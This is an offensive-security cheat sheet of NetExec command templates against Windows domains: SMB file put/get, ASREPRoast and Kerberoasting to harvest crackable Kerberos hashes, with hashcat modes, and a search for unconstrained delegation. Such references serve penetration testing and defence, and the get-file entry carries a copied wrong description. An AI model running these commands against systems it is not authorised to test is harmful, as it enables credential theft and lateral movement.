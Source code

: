 ## nxc - put file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
nxc smb <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## nxc - get file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
nxc smb <ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

## nxc - ASREPRoast enum without authentication
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
nxc ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## nxc - ASREPRoast enum with authentication
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
nxc ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## nxc - Kerberoasting
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

Hashcat format  -m 13100

```bash
nxc ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## nxc - Unconstrained delegation
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

```bash
nxc ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```
